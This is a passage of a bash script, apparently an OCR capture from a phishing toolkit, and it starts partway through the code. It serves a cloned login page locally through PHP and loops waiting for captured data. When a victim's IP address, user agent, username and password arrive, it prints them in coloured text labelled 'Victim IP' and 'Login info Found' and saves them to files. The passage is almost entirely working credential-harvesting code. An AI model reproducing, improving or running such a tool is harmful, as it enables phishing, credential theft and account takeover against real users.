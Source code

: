 \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;93m Select a Port (Default:\e[0m\e[1;91m %s \e[0m\e[1;93m): \e[0m\e[1;91m' $def_port read port port="${port:-${def_port}}" printf "\e[0m\n" printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;93m Initializing...\e[0m\e[1;93m(\e[0m\e[1;91mlocalhost:$port\e[0m\e[1;93m)\e[0m\n" cd websites/$server &amp;&amp; php -S 127.0.0.1:$port > /dev/null 2>&amp;1 &amp; sleep 2 printf "\e[0m\n" printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;93m Successfully Hosted at :\e[0m\e[1;92m http://localhost:$port\e[0m\n" printf "\n" found } found() { printf "\n" printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Waiting for Login Info,\e[0m\e[1;91m Ctrl + C to exit.\e[0m\n" printf "\n" while [ true ]; do if [[ -e "websites/$server/ip.txt" ]]; then printf "\n" printf " \e[1;31m[\e[0m\e[1;77m*\e[0m\e[1;31m]\e[0m\e[1;93m Victim IP Found!\n" printf "\n" c_ip rm -rf websites/$server/ip.txt fi sleep 0.75 if [[ -e "websites/$server/usernames.txt" ]]; then printf " \e[1;31m[\e[0m\e[1;77m*\e[0m\e[1;31m]\e[0m\e[1;93m Login info Found !!\n" printf "\n" c_cred rm -rf websites/$server/usernames.txt fi sleep 0.75 done } c_ip() { touch websites/$server/login_info.txt ip=$(grep -a 'IP:' websites/$server/ip.txt | cut -d " " -f2 | tr -d '\r') IFS=$'\n' ua=$(grep 'User-Agent:' websites/$server/ip.txt | cut -d '"' -f2) printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;93m Victim IP:\e[0m\e[1;91m %s\e[0m\n" $ip printf "\e[0m\n" printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;91m Saved:\e[0m\e[1;92m websites/%s/victim_ip.txt\e[0m\n" $server printf "\n" cat websites/$server/ip.txt >> websites/$server/victim_ip.txt } c_cred() { account=$(grep -o 'Username:.*' websites/$server/usernames.txt | cut -d " " -f2) IFS=$'\n' password=$(grep -o 'Pass:.*' websites/$server/usernames.txt | cut -d ":" -f2) printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;93m Account:\e[0m\e[1;91m %s\n\e[0m" $account printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;93m Password:\e[0m\e[1;91m %s\n\e[0m" $password cat websites/$server/usernames.txt >> websites/$server/login_info.txt printf "\e[0m\n" printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;91m Saved:\e[0m\e[1;92m websites/%s/login_info.txt\e[0m\n" $server printf "\n" printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Waiting for Next Login Info,\e[0m\e[1;91m Ctrl + C to exit.\e[0m\n" } banner deps menu
